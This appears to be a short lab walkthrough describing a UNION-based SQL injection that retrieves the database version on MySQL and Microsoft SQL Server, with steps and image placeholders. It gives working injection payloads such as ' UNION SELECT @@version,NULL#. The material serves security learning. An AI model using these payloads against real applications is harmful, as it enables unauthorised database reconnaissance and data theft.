 ```markdown
SQL injection attack, querying the database type and version on MySQL and Microsoft
```

## Step 1

Check number of column

<img src="Images/ps1.png" width="350" height="200">

## Step 2

Check in which column we can insert

<img src="Images/ps2.png" width="350" height="200">

Here we are able to insert in both column

<img src="Images/ps3.png" width="350" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="Images/ps4.png" width="350" height="200">

And we have the answer

<img src="Images/ps5.png" width="350" height="200">

---

